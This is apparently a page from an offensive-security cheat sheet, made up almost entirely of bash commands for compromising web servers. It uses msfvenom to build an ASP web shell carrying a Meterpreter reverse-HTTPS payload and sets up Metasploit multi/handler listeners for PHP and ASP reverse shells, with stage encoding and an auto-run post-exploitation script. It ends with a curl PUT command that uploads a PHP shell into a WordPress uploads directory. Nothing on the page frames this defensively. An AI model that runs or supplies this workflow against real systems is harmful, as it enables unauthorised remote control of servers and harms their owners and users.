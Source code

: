 {% hint style="info" %}
Generate Web Shell ASP
{% endhint %}

```bash
msfvenom -p windows/meterpreter/reverse_winhttps \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         EnableStageEncoding=true \
         -f asp > /tmp/unk9vvn.aspx
```

{% hint style="info" %}
Listening Metasploit PHP
{% endhint %}

```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD php/meterpreter/reverse_tcp;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
Listening Metaploit ASP
{% endhint %}

```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD windows/meterpreter/reverse_winhttps;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
Upload Shell PUT Method PHP
{% endhint %}

```bash
curl -X PUT $WEBSITE/wp-content/uploads/index.php \
--upload-file /tmp/unk9vvn.php \
-H "Content-Type: application/x-php"
```
